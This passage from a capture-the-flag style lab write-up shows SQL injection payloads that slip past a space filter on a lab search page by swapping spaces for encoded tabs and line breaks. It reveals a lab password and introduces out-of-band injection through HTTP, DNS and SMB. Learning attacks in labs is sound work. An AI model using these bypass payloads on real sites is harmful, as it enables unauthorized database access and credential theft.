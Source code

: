 
In real environments, the queries you apply and the visibility of filtered keywords are not directly possible. As a pentester, it is important to understand that SQL injection testing often involves a hit-and-trial approach, requiring patience and perseverance. Each environment can have unique filters and protections, making it necessary to adapt and try different techniques to find a successful injection vector.

### Practical
---

Let's go to:

```
http://10.10.223.104/space/search_users.php?username=?
```

![[Pasted image 20250505153216.png]]

As seen, we can use our previous payload and we get this:

```
http://10.10.223.104/space/search_users.php?username=1%27%20||%201=1%20--+
```

![[Pasted image 20250505153305.png]]

Still does not work, seems like the filter is better on this page, it seems like the spaces are being omitted by the code, we can replace them by whitespaces and line breaks: 

```
%09 or %0A
```

Let's use this payload then:

```
http://10.10.223.104/space/search_users.php?username=1'%0A||%0A1=1%0A--%27+
```

![[Pasted image 20250505153437.png]]

It worked, there we got our answer:

```
Password for attacker user is: tesla
```

# Out-of-band SQL Injection
---

Out-of-band (OOB) SQL injection is an attack technique that pentester/red teamers use to exfiltrate data or execute malicious actions when direct or traditional methods are ineffective. Unlike In-band SQL injection, where the attacker relies on the same channel for attack and data retrieval, Out-of-band SQL injection utilises separate channels for sending the payload and receiving the response. Out-of-band techniques leverage features like **HTTP** requests, **DNS** queries, **SMB** protocol, or other network protocols that the database server might have access to, enabling attackers to circumvent firewalls, intrusion detection systems, and other security measures.
